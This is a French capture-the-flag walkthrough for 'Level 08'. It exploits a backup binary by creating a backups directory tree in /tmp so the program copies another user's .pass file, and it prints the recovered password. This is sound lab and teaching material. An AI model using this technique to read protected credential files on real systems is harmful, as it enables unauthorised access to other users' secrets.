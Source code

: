 # Level 08
<a href="/level09"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Le fichier qu'on lit est reecrit dans le dossier backups
```
$> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
- On comprends que l'executable ne peut pas creer les dossier necessaire
- On n'a pas les droit dans le home pour creer les dossiers
- Donc il suffit de creer les dossiers dans /tmp/
```
$> cd /tmp/
$> mkdir -p ./backups//home/users/level09/
```
- Puis de executer l'executable
```
$> ~/level08 /home/users/level09/.pass
$> cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
